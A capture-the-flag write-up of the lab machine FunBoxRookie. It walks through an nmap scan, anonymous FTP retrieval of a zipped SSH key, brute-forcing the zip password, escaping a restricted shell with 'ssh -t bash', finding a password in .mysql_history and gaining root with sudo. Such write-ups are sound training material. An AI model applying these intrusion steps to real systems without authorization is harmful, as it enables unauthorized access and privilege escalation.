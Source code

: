 # PG Play - FunBoxRookie

#### Ip: 192.168.189.107
#### Name: FunBoxRooke
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ sudo nmap -p-  --min-rate 10000 192.168.189.107 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-25 12:13 CDT
Nmap scan report for 192.168.189.107
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/logs/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.32 seconds
```

Most interesting to me off the bat is all the zip files in the FTP server, which also has anonymous access enabled.

Logging in, the first thing I notice is that the tom.zip has different permissions than the rest of the files. Lets start there.

Logging in with:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ ftp 192.168.189.107                     
Connected to 192.168.189.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.189.107]
Name (192.168.189.107:ryan): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.158 !
```

I can use the `get` command to bring tom.zip back to my machine.

### Exploitation

Trying to unzip the file we see it has an SSH key, but it is password protected:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ unzip tom.zip                
Archive:  tom.zip
[tom.zip] id_rsa password: 
   skipping: id_rsa                  incorrect password
```

Lets use fcrackzip to brute force this password:

fcrack.png

We can now unzip the file:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ unzip tom.zip
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa 
```

And login to the box:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ ssh -i id_rsa tom@192.168.189.107

<snip>
```

From here we can grab the local.txt file:

user_flag.png

### Privilege Escalation

Running `sudo -l` prompts for a password, but when we run `id` we can see that tom is a member of the sudoers group:

```text
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
tom@funbox2:~$ ^C
tom@funbox2:~$ ^C
tom@funbox2:~$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Trying to change directories to begin enumerating for privilege escalation, we realize we a in a restricted shell:

```text
tom@funbox2:~$ cd /
-rbash: cd: restricted
```

Lets logout and SSH in again, but this time we'll also include the `-t bash` flag:

bash.png

Back in tom's home directory we find a `.mysql_history` file, and it has toms credentials in it:

creds.png

Nice! Because we know that tom is in the sudoers group, and we now have his password, we can easily elevate our shell to root level:

```text
tom@funbox2:~$ sudo /bin/bash
[sudo] password for tom: 
root@funbox2:~# whoami
root
root@funbox2:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And we can grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------------------------------